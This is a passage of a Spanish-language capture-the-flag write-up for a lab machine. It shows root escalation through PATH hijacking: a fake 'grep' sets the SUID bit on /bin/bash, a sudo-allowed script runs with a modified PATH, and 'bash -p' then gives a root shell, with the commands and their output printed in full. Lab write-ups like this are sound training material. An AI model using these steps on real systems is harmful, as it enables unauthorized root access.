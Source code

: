 Lo primero que puedo ver es que tenemos comandos sin apuntar a su ruta absoluta, es decir, están usando la ruta relativa... por lo que eso ya me hace pensar que podría estar ante un PATH HIJACKING.

Para explotar este Path Hijacking vamos a crear un archivo, en este caso va a ser grep, con el siguiente contenido.

```bash
gh0st@friendly2:~$ nano grep
gh0st@friendly2:~$ chmod +x grep 
gh0st@friendly2:~$ cat grep 
chmod u+s /bin/bash
```

Una vez creado el archivo grep, vamos a editar el PATH añadiendo el directorio de trabajo donde hemos creado el archivo grep.

Después ejecutamos el archivo security.sh y tirará del grep falso que hemos creado anteriormente, ejecutando el contenido que habíamos introducido otorgando permisos SUID a la bash.

```bash
gh0st@friendly2:~$ sudo PATH=/home/gh0st:$PATH /opt/security.sh 
Enter the string to encode:
hola vulnyx
The string cannot contain special characters.
gh0st@friendly2:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```
Y ya tendremos la bash con permisos SUID.

Por lo que ya solo debemos ejecutar `bash -p` y seremos root.

```bash
gh0st@friendly2:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
gh0st@friendly2:~$ bash -p
bash-5.1# id
uid=1001(gh0st) gid=1001(gh0st) euid=0(root) groups=1001(gh0st)
bash-5.1# whoami
root
```

Para leer la flag de root tenemos una sorpresilla... os lo dejo a vosotros!!!


